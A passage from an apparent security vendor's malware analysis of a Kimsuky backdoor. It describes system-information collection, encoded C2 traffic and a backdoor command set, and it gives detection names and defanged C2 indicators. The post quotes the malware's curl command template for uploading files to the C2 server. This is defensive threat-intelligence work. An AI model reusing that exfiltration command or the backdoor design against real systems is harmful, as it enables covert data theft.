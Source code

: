 Afterwards, information such as the host name, user name, and OS information is collected. For the malware to avoid detection, it encodes the command execution results and sends them to the C2.

Figure 3. Collected system information

Figure 4. Information being encoded and transmitted
Also, the following commands (including system information exfiltration) are run, behaving as a backdoor in the affected system. Additionally, the curl tool is used to upload information to the C2 server.

getinfo: System information
die: Terminate
where: Execution path
run: Run certain files and commands
curl -k -F “fileToUpload=@%s” -F “id=%S” %s

Because the bait file is also run, users cannot recognize that their systems are infected by malware. As these types of malware mainly attack specific targets, users should refrain from running attachments in emails sent from unknown sources.
[File Detection]

Dropper/JS.Generic (2023.11.16.02)
Backdoor/Win.Nikidoor (2023.11.15.03)

[IOC]

MD5d2335df6d17fc7c2a5d0583423e39ff8d6abeeb469e2417bbcd3c122c06ba099
C2hxxp://rscnode.dothome.co[.]kr/index.phphxxp://rscnode.dothome.co[.]kr/upload.php

Subscribe to AhnLab’s next-generation threat intelligence platform ‘AhnLab TIP’ to check related IOC and detailed analysis information.


Categories:Malware Information 
Tagged as:backdoor,Kimsuky 




Personal Information Sales Used as Bait to Distribute Malware 

Ransomware Attacks Using RDP as the Attack Vector (Detected by EDR) 







5
2
votes
Article Rating

 





 Subscribe




 Login 
